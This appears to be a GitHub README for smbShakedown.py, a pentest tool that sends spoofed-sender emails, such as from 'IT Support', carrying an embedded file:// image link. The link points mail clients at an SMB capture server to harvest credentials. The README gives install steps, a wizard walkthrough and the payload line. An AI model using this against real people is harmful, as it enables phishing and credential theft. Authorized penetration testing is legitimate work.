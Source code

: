 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0
#Installation
    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    python smbShakedown.py
    
#Usage
        Launch smbShakedown.py and follow the wizard:
        
        Enter SMTP Server address[smtp.gmail.com]: mail.smtp.com
        ENTERED: "mail.smtp.com"

        Enter your SMTP Server Port[587]: 2525
        ENTERED: "2525"

        Enter SMTP Server username[user@gmail.com]: beamr@gmail.com
        ENTERED: "beamr@gmail.com"

        Enter SMTP Server password: 

        Enter SMB Capture Server IP address[10.0.0.7]: 
        ENTERED:10.0.0.7

        Enter "from name":[IT Support]
        ENTERED:IT Support

        Enter "from address":[itsupport@company.com]support@company123.com
        ENTERED:support@company123.com

        Enter recipient(s) name[Bob]: Nick
        ENTERED:Nick
        
        etc..

#External Pentest
    Virtual Private Server (VPS) recommended.
    If behind a firewall be sure to enable port forwarding for your SMB Capture Server:
    
    1.Configure SMTP Relay server address:
    
    2.Enter SMTP Relay server credentials: 
    (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses:
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email: 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    *Verify this is the external IP address*
    
    5.SMBCapture Server does not have to be hosted locally:
    EX: Use a VPS

#Internal Pentest
    1.Configure SMTP Server, smarthost/localhost/other:
    (Looking into intergrating smtpd for local SMTP server option)
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses:
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5.SMBCapture Server can be hosted locally:
    EX: Metasploit's SMB Capture server can be configured to automatically launch.

#To do:
    SMTP Anonymous Auth option
    Add smtplib error handling
    Multiple recipient address support.
    SMTP local server option
    Create forked version.
